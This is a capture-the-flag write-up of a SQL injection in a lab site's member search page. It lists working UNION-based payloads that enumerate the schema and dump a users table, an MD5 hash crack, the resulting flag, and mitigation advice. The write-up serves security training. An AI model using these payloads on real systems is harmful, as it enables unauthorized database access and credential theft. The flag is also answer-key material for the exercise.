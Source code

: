 # SQL Injection In Member Search Field


## Issue

The input field at "http://{IP}:{PORT}/index.php?page=member" does not sanitize input data which is passed through to a database directly enquiry \
resulting in injection of query into SQL database.


## Attack Vector

1 - Navigating to "http://{IP}:{PORT}/index.php?page=member" and entering arbitrary payload eg `' or 1=1` into input field and selecting submit 
reveals SQL syntax error message confirming that data is being passed into query unsantized

2 - Identify Schemas in database by inputing `4 UNION null,schema_name from INFORMATION_SCHEMA.SCHEMATA-- -` - we see interesting schema `Member_Sql_Injection` \
Note - as there are only 2 columns being reurned/rendered by the server during a normal query then union select needs to only reference 2 columns during query!

3 - Identify the tables in `Member_Sql_Injection` schema with `4 UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.COLUMNS -- -` which reveals table name `users`

4 - Identify all columns in Users table in Member_Sql_Injection with  `4 UNION SELECT COLUMN_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS -- -`

5 - Column names `user_id, first_name, last_name, town, country, planet, Commentaire, countersign` are revealed

6 - Query each column in Users table with `4 UNION SELECT {column_name},{column_name} FROM Member_Sql_Injection.users -- -`

7 - After querying all columns we see one particular interest entry in the Users table as follows:
| **Column name**  | user_id | first_name | last_name | town | country | planet | Commentaire                                               | countersign                               |
|--------------|---------|------------|-----------|------|---------|--------|-----------------------------------------------------------|------------------------------------------|
| **Data**         | 5       | Flag       | GetThe    | 42   | 42      | 42     | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28        |

8 - Open bash and navigate to script directory. Launch script with `python3 hashcracker.py` to attempt to crack md5 hash against the passwordlist.txt wordlist

9 - The decrypted hash is found to be `FortyTwo`

10 - We follow the intructions as per table contents and lowercase `FortyTwo` then apply a SHA256 algorith to reveal the flag.

11 - Flag is `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

*NOTE - You can use existing MD5 decryption tools such as MD5decrypt.net to attempt to crack the hash.*


## Mitigation

1 - Sanitize and validate input

2 - Use ORM framework to make queries to database

3 - Do not expose raw SQL error messages




